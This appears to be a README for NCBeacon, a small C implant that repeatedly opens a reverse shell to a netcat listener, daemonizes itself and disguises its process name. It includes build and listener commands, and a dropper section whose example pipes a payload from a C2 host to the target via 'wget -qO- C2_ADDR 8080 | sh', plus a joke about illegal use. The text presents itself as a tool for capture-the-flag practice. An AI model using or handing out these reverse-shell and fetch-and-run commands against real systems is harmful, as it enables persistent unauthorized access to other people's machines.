 NCBeacon
--------
A small beaconing implant meant to be caught with netcat.  This was written
after watching someone hack [hackthebox](hackthebox.eu) boxes, lose his shell a
few times, and have to re-exploit to get it back.  All it does is call back
every few seconds.

Features
- Calls back with `/bin/sh` hooked up to the TCP connection every 5 seconds
- [Daemonizes](https://man.openbsd.org/daemon) itself
- Dissociates the shells it spawns from the parent process
- Spawned shells have a configurable name (i.e. `argv[0]`)

For legal use only, though you'd probably be doing law enforcement a favor if
you used this for illegal purposes.

Quickstart
----------
1. Build it (replacing the `CALLBACK_ADDRESS` with your address
```sh
cc -O2 -DCBADDR=CALLBACK_ADDRESS -o ncbeacon ncbeacon.c
```
2. Put it on target
3. Set up netcat to catch it
```sh
rlwrap nc -nvlp 4444
```
4. Start it, on target
```
./ncbeacon
```

Configuration
-------------
There are a few compile-time settings controlled by macros (i.e. -DNAME=VALUE)

Macro    | Required | Default | Description
---------|----------|---------|------------
`CBADDR` | *Yes*    | _None_  | Callback Address
`CBPORT` | _No_     | 4444    | Callback Port
`CBWAIT` | _No_     | 5       | Time between callbacks, in seconds
`SHNAME` | _No_     | `knetd` | Name (`argv[0]`) of spawned shells
`DEBUG`  | _No_     | _Unset_ | If set, logs errors and prevents backgrounding

Excessive Process Spawning
--------------------------
One of the downsides of spawnining a new process to call back ever few seconds
is that if something accepts the connection and never closes it, the process
doesn't die.  I'm looking at you OpenBSD
[`nc(1)`](https://man.openbsd.org/nc.1).  This can be solved by using a tool
to catch the connection which closes the listening socket after accepting a
connection, such as ncat.

The included program [nccatch](./nccatch.c) will also happily catch a
connection from ncbeacon.  Build it with
```sh
cc -O2 -o nccatch nccatch.c
```

Give it either a port or an address and port, like `./nccatch 4444` or
`./nccatch 127.0.0.1 4444`.

OpSec Considerations
--------------------
This is bad.

- No encryption
- No authentication
- Very frequent connection attempts
- Very regular connection attempts
- Connects up a shell to stdio (have a look at `/proc/$$/fd`)

In other words, this is pretty much only suitable for HTB and similar safe
environments.  Please don't use this for actual engagements unless you have a
very good reason to.

Dropper
-------
A script to generate a shell script named [bin2dropper.sh](./bin2dropper.sh)
which drops and runs a payload is included in this repository.  It takes a
payload and writes to stdout a script which will drop the payload, run it, and
remove it.  Prerequisites on target are openssl and gunzip.

Example:
```sh
./bin2sh -d sneaky ./ncbeacon | nc -Nnvl 8080 # On C2 infrastructure
cd /tmp; wget -qO- C2_ADDR 8080 | sh          # On target
```
This will use wget to grab a script which drops `./ncbeacon` to `/tmp/sneaky`
and runs it as `sneaky`.

You can now mark off "in-memory dropper execution" on your buzzword bingo card.

